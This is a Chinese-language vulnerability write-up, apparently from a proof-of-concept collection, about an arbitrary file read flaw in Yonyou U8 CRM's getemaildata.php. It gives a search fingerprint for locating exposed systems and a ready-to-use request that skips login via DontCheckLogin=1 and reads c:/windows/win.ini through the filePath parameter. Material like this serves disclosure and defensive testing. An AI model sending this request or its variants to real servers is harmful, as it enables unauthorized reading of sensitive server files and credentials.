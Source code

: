 # 

# 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取到服务器中的敏感文件

## 漏洞影响

用友 U8 CRM客户关系管理系统

## 网络测绘

```
web.body="用友U8CRM"
```

## 漏洞复现

登陆页面

![image-20230828150939621](images/image-20230828150939621.png)

验证POC

```
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```

![image-20230828150951560](images/image-20230828150951560.png)
